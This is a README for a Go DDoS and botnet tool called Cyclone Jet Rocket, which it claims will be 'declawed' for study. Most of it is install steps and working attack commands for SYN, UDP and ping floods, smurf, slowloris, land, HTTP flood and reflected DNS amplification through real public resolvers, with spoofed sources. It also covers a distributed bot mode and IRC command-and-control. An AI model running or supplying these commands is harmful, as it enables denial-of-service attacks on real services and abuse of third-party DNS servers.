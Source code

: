 # Cyclone Jet Rocket

Cyclone Jet Rocket is a DDoS tool.  This custom version will be "declawed" and examined for better understanding of how the botnet part functions.

This DDoS tool provides more than 8 kinds of attack methods, each in one module, with different parameters each module. The abstraction of Layers is inspired from [gopacket](https://github.com/google/gopacket), but reimplemented by myself.

## Install

```
go get github.com/crazyboycjr/cyclone-jet-rocket
go build -o $GOPATH/bin/cjr github.com/crazyboycjr/cyclone-jet-rocket
sudo setcap cap_net_raw+ep $GOPATH/bin/cjr
```

## Usage

stand-alone mode
```
cjr --help
cjr --list-module
cjr --module ping-flood help
cjr -m ping-flood --spoof 192.168.1.0/24 --destination 192.168.1.3 --rate 100/ms -c 100000 --size 1472
cjr -m udp-flood -s 192.168.0.0/16 -d 192.168.1.3 -p 80 -p 22 -p 8000:9000 -r nolimit --size 1200
cjr -m smurf --broadcast 192.168.1.255 -d 192.168.1.3 -c 1000 --size 1000
cjr -m syn-flood -s 192.168.2.0/24 -d 192.168.1.3 -p 80 -r 100/s
cjr -m slowloris --url http://www.example.com --request GET -c 100 -r 1/s --timeout 10
cjr -m slowloris -u http://www.example.com -X POST -c 100 -r 10/s -t 20
cjr -m rdns --target 192.168.1.3 --dns 202.120.224.6:53 --dns 61.129.42.6:53 --dns 114.114.114.114:53 -c 1000 -r 10/s
cjr -m rdns --target 192.168.1.3 -f dns_servers.txt -c 1000 -r 10/s --question www.example.com
cjr -m land -d 192.168.1.3 -p 80 -r 10/s
cjr -m http-flood -u http://www.example.com -X POST -c 100 -r 10/s
```

distributed mode
```
cjr --dist help
cjr -D --wait # only slave host use this command to wait for commands
cjr -D --list-bots
cjr -D -m syn-flood -s 10.0.0.0/8 -d 10.123.123.123 -p 80 -r 10/s
cjr -D --stop
cjr -D --uninstall # this command will terminate the process on slave host and remove the executable file
```

For convenience, we can also join the IRC channel to give the order. Something like below
```
irssi
/connect Freenode
/join cjr-random
!list
!module rdns --target 192.168.1.3 --dns 202.120.224.6:53 -c 1000 -r 10/s
!stop
```

## Dependencies

- Go version 1.8 or above
- [go-flags](https://github.com/jessevdk/go-flags)
- [go-ircevent](https://github.com/thoj/go-ircevent)
